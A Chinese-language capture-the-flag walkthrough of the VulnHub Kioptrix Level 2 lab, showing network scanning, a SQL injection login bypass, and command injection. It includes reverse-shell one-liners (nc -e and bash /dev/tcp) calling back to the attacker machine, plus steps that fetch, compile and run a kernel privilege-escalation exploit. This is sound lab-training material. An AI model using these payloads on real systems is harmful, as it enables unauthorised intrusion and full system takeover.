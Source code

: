 # Kioptrix2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

**Description**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

Source: http://www.kioptrix.com/blog/?page_id=135

Source: http://www.kioptrix.com/blog/?p=49

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

**知识点**
- SQL 注入
- 命令执行
- CVE-2009-2698

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.145` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.145
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/2.png)

开放端口数蛮多的,SSH、http、https、Mysql,还有一个较为少见的 631，运行的 CUPS 服务，CUPS 也有许多漏洞

这里 nmap 扫描 mysql 提示未授权,不过我测试并不能连接,从 web 先入手

---

# 中期-漏洞利用

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/3.png)

看着就像有 SQL 注入的样子,随便试了下注入就进去了
```
账号 随便
密码 1' or '1'='1
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/4.png)

看起来有个命令注入,简单尝试发现没有过滤
```
;ip a
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/5.png)

下面直接回弹 shell，kali 监听
```
nc -lvp 4444
```

执行命令
```
;nc -nv 192.168.141.134 4444 -e /bin/bash
```
没成功,估计没有 nc,试试直接 bash 回弹
```
;bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/6.png)

回弹成功,果然没有 nc 程序,下面测试提权

---

# 后期-提权

简单收集下信息
```
cat /etc/*-release
uname -a
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/7.png)

centos 4.5,可以试试 CVE-2009-2698，https://www.exploit-db.com/exploits/9542

这里直接靶机下载或kali下载再传上去都行,自选

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/9542
mv 9542 9542.c
python -m SimpleHTTPServer 8080
```

靶机下载 kali 上的 poc
```bash
cd /tmp
wget 192.168.141.134:8080/9542.c
gcc 9542.c
ls
./a.out
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix2/8.png)

提权成功,感谢 Kioptrix Team 制作靶机
